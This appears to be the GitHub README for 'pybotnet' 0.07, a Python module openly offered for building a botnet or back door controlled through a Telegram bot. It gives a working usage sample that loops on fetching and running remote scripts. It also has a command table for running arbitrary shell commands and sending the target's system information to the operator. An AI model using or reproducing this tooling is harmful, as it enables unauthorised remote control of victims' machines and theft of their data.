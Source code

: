 # pybotnet version 0.07

A module for building botnet or back door with Python and Telegram control panel
- [x] windows
- [x] linux
- [ ] mac

### See the [TODO List](https://github.com/onionj/pybotnet/blob/master/TODOLIST.MD) if you want to *help* me <3

### Features:
* get command from telegram and execute scripts 
* get command and send message by third party proxy
* send target info 

for more features see command list ↓
 


### Requirements:

* Python 3.6 or higher.
```
pip install -r requirements.txt
```

### Sample:

```python
import pybotnet
import time

TELEGRAM_TOKEN = '1468299500:AAHsvEH-5VyIfWYMzZcYxF_e00000000000'
ADMIN_CHAT_ID = '12345678910'
delay = 60

bot = pybotnet.PyBotNet(TELEGRAM_TOKEN, ADMIN_CHAT_ID, show_log=True, send_system_data=True)

while True:
    bot.get_and_execute_scripts_by_third_party_proxy()
    time.sleep(delay)

```

### Commmands:
Send this message to your api bot in telegram, using the admin account.

COMMAND | DO THIS | Minimum version required |
--------|---------|--------------------------|
do_sleep \<scconds> \<message> |  \<if message != none : print(message) > ; time.sleep(seccond) | 0.05 |
get_info | return system info | 0.06 |
cmd \<system command> | run system command in shell or cmd | 007 |

